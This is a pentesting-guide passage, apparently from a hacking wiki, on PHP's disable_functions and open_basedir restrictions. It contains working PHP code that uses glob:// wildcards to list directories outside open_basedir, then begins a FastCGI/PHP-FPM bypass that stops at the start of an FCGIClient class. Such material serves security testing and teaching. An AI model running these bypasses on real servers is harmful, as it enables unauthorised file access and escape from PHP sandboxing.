 Disabled functions is the setting that can be configured in .ini files in PHP that will forbid the use of the indicated functions. Open basedir is the setting that indicates to PHP the folder that it can access.
The PHP setting sue to be configured in the path /etc/php7/conf.d or similar.

Both configuration can be seen in the output of phpinfo():
open_basedir Bypass

open_basedir will configure the folders that PHP can access, you won't be able to to write/read/execute any file outside those folders, but also you won't even be able to list other directories.
However, if somehow you are able to execute arbitrary PHP code you can try the following chunk of codes to try to bypass the restriction.
Listing dirs with glob:// bypass

In this first example the glob:// protocol with some path bypass is used:

<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}

Note1: In the path you can also use /e??/* to list /etc/* and any other folder.
Note2: It looks like part of the code is duplicated, but that's actually necessary!
Note3: This example is only useful to list folders not to read files
Full open_basedir bypass abusing FastCGI

If you want to learn more about PHP-FPM and FastCGI you can read the first section of this page.
If php-fpm is configured you can abuse it to completely bypass open_basedir:

Note that the first thing you need to do is find where is the unix socket of php-fpm. It use to be under /var/run so you can use the previous code to list the directory and find it.
Code from here.

<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{